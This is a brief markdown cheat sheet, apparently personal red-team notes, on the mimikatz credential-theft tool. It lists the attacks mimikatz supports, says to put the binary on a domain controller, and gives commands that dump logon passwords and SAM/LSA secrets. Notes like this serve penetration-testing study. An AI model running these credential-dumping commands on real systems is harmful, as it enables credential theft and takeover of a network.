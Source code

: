 ## Introduction
- Tool used to view and steal credentials, generate kerberos tickets, and leverage attacks.
- Dumps credentials stored in memory.
- Just a few attacks: Credential dumping, pass-the-hash, over-pass-the-hash, pass-the-ticket, golden ticket, silver ticket.

## Setup for mimikatz
**Put the binary into the domain controller from** --> https://github.com/gentilkiwi/mimikatz/releases
![[mimikatz1.png]]

## Some useful commands:
```python
1. mimikatz.exe
2. privilege::debug
3. sekurlsa::logonpasswords
4. lsadump::sam
5. lsadump::lsa /patch
```
 **For more commands visit the official repo**
 